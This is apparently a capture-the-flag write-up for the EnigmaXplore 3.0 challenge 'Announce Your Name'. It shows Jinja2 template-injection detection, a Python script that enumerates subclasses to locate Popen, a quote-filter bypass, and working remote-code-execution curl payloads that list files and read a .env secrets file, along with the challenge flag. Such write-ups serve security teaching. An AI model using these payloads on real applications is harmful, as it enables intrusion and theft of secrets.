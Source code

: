 ## EnigmaXplore 3.0 - Announce Your Name 150 Write-up

![Title](images/Title.png)

### Step 1: Initial Analysis and Vulnerability Confirmation

On the landing page, we see an input field and a cryptic description that hints at server-side data processing ("The language of walls," "the modular secret").

The first step is to check for SSTI. We send a simple mathematical operation using the syntax of the Jinja2 template engine.

```bash
curl -X POST "https://enigmaxplore-web1.chals.io/submit" --data-urlencode "message={{ 7 * 7 }}"
```

The server returns `49`, which definitively confirms the SSTI vulnerability.

![SSTI Check](images/1.png)

There is also JavaScript on the page that locks the input field. This protection is easily bypassed by sending requests directly via `curl`, which is what we'll be doing.

### Step 2: Enumeration and First Hurdles

Our goal is to escalate from simple expression execution to Remote Code Execution (RCE) or file reading. To do this, we attempt to access the list of all loaded Python classes.

**Payload to access subclasses:**
`{{ ''.__class__.__base__.__subclasses__() }}`

We start by iterating through the classes by their index, hoping to find `subprocess.Popen`. However, this is unsuccessful—most likely, **the server is filtering the list, removing dangerous classes** found at low indices.

The next problem arises when trying to pass a filename as an argument. The server blocks string literals (`'...'`) inside function calls within the template. To bypass this, we pass the strings we need via URL parameters and access them in the template through the `request` object.

### Step 3: Automation and Breakthrough

Manually iterating through hundreds of classes is inefficient. Therefore, we automate the process with a Python script that will iterate through the indices and print the corresponding class names.

#### Script for finding the index (`index_finder.py`)

```python
import requests
from bs4 import BeautifulSoup
import time

# Target URL
URL = "https://enigmaxplore-web1.chals.io/submit"

# Index range to check
START_INDEX = 1
END_INDEX = 600 # Increasing the range for a full search

print(f"[*] Starting search for the required class in the index range from {START_INDEX} to {END_INDEX}...")

# Iterate through all indices in the specified range
for i in range(START_INDEX, END_INDEX + 1):
    # Form the payload to get the class name by its index
    payload = f"{{{{ ''.__class__.__base__.__subclasses__()[{i}].__name__ }}}}"
    data = {'message': payload}

    try:
        # Send a POST request
        response = requests.post(URL, data=data, timeout=5)
        
        if response.status_code == 200:
            # Parse the HTML response
            soup = BeautifulSoup(response.text, 'html.parser')
            result_div = soup.find('div')

            if result_div:
                class_name = result_div.text.strip()
                print(f"Index [{i}]: {class_name}")

                # Check if the class name contains keywords related to files or command execution
                if any(keyword in class_name.lower() for keyword in ['file', 'wrapper', 'textio', 'open', 'popen']):
                    print(f"\n[!!!] POTENTIALLY SUITABLE CLASS FOUND!")
                    print(f"[!!!] INDEX: {i}")
                    print(f"[!!!] CLASS NAME: {class_name}\n")
            else:
                print(f"Index [{i}]: Failed to extract class name. Server response:\n{response.text[:150]}...")

    except requests.exceptions.RequestException as e:
        print(f"Index [{i}]: Error while sending request: {e}")

print("\n[*] Search completed.")
```

After running the script, we make a key discovery: the `Popen` class wasn't removed; it was just **hidden at a high index—506!** This is our key to RCE.

### Step 4: RCE Exploitation and Reconnaissance

Now we have everything we need to execute commands on the server. We use the discovered index `506` and the string filter bypass method.

First, we conduct reconnaissance to see what files are in the current directory.

**Reconnaissance Command:**
(Remember to URL-encode the space as `%20`)
```bash
curl -X POST "https://enigmaxplore-web1.chals.io/submit?cmd=ls%20-la" --data-urlencode "message={{ ''.__class__.__base__.__subclasses__()[506](request.args.cmd, shell=True, stdout=-1).communicate()[0].decode() }}"
```

The server returns a list of files.

![Output of the ls -la command](images/2.png)

Among the files, we see `.env`. This is a standard file for storing environment variables and secrets, which makes it our primary target.

### Step 5: Retrieving the Flag

All that's left is to read the contents of the `.env` file. We simply change the command in our request.

**Command to Read the Flag:**
```bash
curl -X POST "https://enigmaxplore-web1.chals.io/submit?cmd=cat%20.env" --data-urlencode "message={{ ''.__class__.__base__.__subclasses__()[506](request.args.cmd, shell=True, stdout=-1).communicate()[0].decode() }}"
```

The server returns the contents of the file, which contains the flag.

![Output of the cat .env command with the flag](images/3.png)

### Flag
Flag: `EnXp{N01T53UQFTC34T3DAM5A47ANUK}`